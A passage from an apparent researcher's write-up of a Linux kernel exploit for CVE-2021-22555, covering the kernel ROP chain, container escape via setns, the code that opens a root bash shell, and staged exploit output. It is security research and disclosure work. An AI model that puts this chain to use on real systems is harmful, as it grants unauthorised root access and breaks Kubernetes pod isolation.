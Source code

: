 [Figure 11: Freed `struct pipe_buffer` reclaimed with a fake `struct pipe_buffer`]

The final stage of the exploit is to close all pipes in order to trigger the release which in turn will kick off the JOP chain. Finding JOP gadgets is hard, thus the goal is to achieve a kernel stack pivot as soon as possible in order to execute a kernel ROP chain.

#### Kernel ROP chain[](#kernel-rop-chain)

We save the value of RBP at some scratchpad address in kernel so that we can later resume the execution, then we call `commit_creds(prepare_kernel_cred(NULL))` to install kernel credentials and finally we call `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to switch the namespace of process 1 to the one of the _init_ process. After that, we restore the value of RBP and return to resume the execution (which will immediately make `free_pipe_info()` return).

#### Escaping the container and popping a root shell[](#escaping-the-container-and-popping-a-root-shell)

Arriving back in userland, we now have root permissions to change mnt, pid and net namespaces to escape the container and break out of the kubernetes pod. Ultimately, we pop a root shell.

```
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);


```

Proof-Of-Concept[](#proof-of-concept)
-------------------------------------

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555).

Executing it on a vulnerable machine will grant you root:

```
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

```